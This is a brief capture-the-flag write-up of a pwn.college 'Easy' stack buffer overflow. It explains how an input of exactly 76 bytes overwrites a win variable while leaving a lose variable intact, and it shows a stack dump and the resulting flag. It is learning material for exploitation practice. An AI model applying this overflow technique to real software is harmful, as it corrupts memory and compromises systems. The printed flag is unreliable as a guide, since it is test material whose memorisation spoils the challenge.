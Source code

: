 # Easy

```c 
struct
    {
        char input[74];
        int win_variable;
        int lose_variable;
    } data  = {0} ;
```

In this challenge we cannot input a string of any size since there is `lose_variable` here also which if it is not NULL we do not get our flag.

So we have to find out exactly where `win_variable` is after input array and enter a string a specific size so that only the win_variable is written.

    The program's memory status:
    - the input buffer starts at 0x7fff67ca4720
    - the saved frame pointer (of main) is at 0x7fff67ca4780
    - the saved return address (previously to main) is at 0x7fff67ca4788
    - the saved return address is now pointing to 0x4026be.
    - the canary is stored at 0x7fff67ca4778.
    - the canary value is now 0x432c65a5950ec500.
    - the address of the win variable is 0x7fff67ca476c.
    - the value of the win variable is 0xa.
    - the address of the lose variable is 0x7fff67ca4770.
    - the value of the lose variable is 0x0.

The win variable is 76 bytes ahead of input variable so we have to input exactly 76 bytes inorder to write to the  win_variable


    +---------------------------------+-------------------------+--------------------+
    |                  Stack location |            Data (bytes) |      Data (LE int) |
    +---------------------------------+-------------------------+--------------------+
    | 0x00007fff67ca46f0 (rsp+0x0000) | 01 00 00 00 04 00 00 00 | 0x0000000400000001 |
    | 0x00007fff67ca46f8 (rsp+0x0008) | c8 58 ca 67 ff 7f 00 00 | 0x00007fff67ca58c8 |
    | 0x00007fff67ca4700 (rsp+0x0010) | b8 58 ca 67 ff 7f 00 00 | 0x00007fff67ca58b8 |
    | 0x00007fff67ca4708 (rsp+0x0018) | a0 e6 8d b6 01 00 00 00 | 0x00000001b68de6a0 |
    | 0x00007fff67ca4710 (rsp+0x0020) | 00 00 00 00 4d 00 00 00 | 0x0000004d00000000 |
    | 0x00007fff67ca4718 (rsp+0x0028) | 00 10 00 00 00 00 00 00 | 0x0000000000001000 |
    | 0x00007fff67ca4720 (rsp+0x0030) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
    | 0x00007fff67ca4728 (rsp+0x0038) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
    | 0x00007fff67ca4730 (rsp+0x0040) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
    | 0x00007fff67ca4738 (rsp+0x0048) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
    | 0x00007fff67ca4740 (rsp+0x0050) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
    | 0x00007fff67ca4748 (rsp+0x0058) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
    | 0x00007fff67ca4750 (rsp+0x0060) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
    | 0x00007fff67ca4758 (rsp+0x0068) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
    | 0x00007fff67ca4760 (rsp+0x0070) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
    | 0x00007fff67ca4768 (rsp+0x0078) | 41 41 41 41 0a 00 00 00 | 0x0000000a41414141 |
    | 0x00007fff67ca4770 (rsp+0x0080) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
    | 0x00007fff67ca4778 (rsp+0x0088) | 00 c5 0e 95 a5 65 2c 43 | 0x432c65a5950ec500 |
    | 0x00007fff67ca4780 (rsp+0x0090) | c0 57 ca 67 ff 7f 00 00 | 0x00007fff67ca57c0 |
    | 0x00007fff67ca4788 (rsp+0x0098) | be 26 40 00 00 00 00 00 | 0x00000000004026be |
    +---------------------------------+-------------------------+--------------------+

&nbsp;

    pwn.college{IC8ItwY0DHJDxGRESrP4-TcwSKr.QX0AzNwEDL5kzM1czW}

&nbsp;
